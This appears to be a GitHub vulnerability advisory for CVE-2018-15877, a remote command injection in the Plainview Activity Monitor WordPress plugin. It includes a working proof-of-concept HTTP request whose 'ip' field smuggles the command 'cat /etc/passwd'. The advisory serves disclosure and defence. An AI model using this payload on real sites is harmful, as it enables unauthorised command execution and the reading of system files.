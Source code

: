 # RCE with [```Plainview Activity Monitor```](https://fr.wordpress.org/plugins/plainview-activity-monitor/) WordPress plugin  
- Affected: ```Plainview Activity Monitor``` WordPress plugin.
- Version: `4.7.11` and possibly prior
- Privileges required: yes (but found CSRF & XSS can be combined - see [poc.html](https://github.com/aas-n/CVE/blob/master/plainview-activity-monitor/poc.html))
- CVE-ID: ```CVE-2018-15877```
- Author:
  - [Lydéric Lefebvre](https://www.linkedin.com/in/lydericlefebvre/)

## Index

| Title        | Description   |
| ------------- |:-------------|
| [Description](#description)  | Description |
| [PoC](#poc) | PoC |

## Description

Plainview Activity Monitor is vulnerable to OS commanding which allows an attacker to remotely execute commands on underlying system. ```ip``` parameter in ```page=plainview_activity_monitor&tab=activity_tools``` is vulnerable.

![oscommanding](https://image.noelshack.com/fichiers/2018/34/6/1535228244-oscommand.png)

## PoC
```
POST /wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools HTTP/1.1
Host: localhost:8000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://localhost:8000/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools
Content-Type: multipart/form-data; boundary=---------------------------13707449992054116824594351796
Content-Length: 311
Cookie: wordpress_70490311fe7c84acda8886406a6d884b=aas%7C1535400075%7CNJ8xAHSGtDKoNgc8tTpSZA6Dn6INW6PkzdG1IVzHX9Z%7C422290d1e6d712e3db5efb9ab4a9aa3df0631e20d5e0dce34ec84ec6f70766c8; PHPSESSID=18d2c15b8f5755104632ec1cc65c56e1; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_70490311fe7c84acda8886406a6d884b=aas%7C1535400075%7CNJ8xAHSGtDKoNgc8tTpSZA6Dn6INW6PkzdG1IVzHX9Z%7C0d8cef0facff651e3b0b7790b6c3f84dad36051b8378487acbe5bf03ebef52af; wp-settings-1=deleted; wp-settings-time-1=1535227275
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------13707449992054116824594351796
Content-Disposition: form-data; name="ip"

google.fr|cat /etc/passwd
-----------------------------13707449992054116824594351796
Content-Disposition: form-data; name="lookup"

Lookup
-----------------------------13707449992054116824594351796--
```
